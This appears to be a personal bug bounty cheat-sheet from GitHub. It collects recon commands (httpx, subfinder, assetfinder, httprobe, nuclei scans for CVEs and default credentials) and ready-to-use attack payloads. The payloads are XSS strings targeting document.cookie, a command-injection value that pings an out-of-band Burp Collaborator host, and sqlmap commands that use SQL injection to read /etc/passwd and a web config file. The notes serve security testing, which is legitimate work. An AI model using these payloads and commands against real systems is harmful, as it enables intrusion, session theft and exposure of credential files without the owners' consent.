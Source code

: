 # Bug Bounty Personal Tips

## Recon 

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l moduk -proxy http://192.168.0.131:1337 `

## XSS
```  : /"><script>alert(document.cookie)</script> ```

``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

## SSRF 
``` galletita ; ping -c 1 burp.oastify.com ```

## SQLMAP
```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/etc/passwd"
```

```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/var/www/html/config.php"
```

### OTHERS
``` assetfinder X.com | tee -a /tmp/X.txt```

``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```

```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```

``` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 ```

``` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" ```

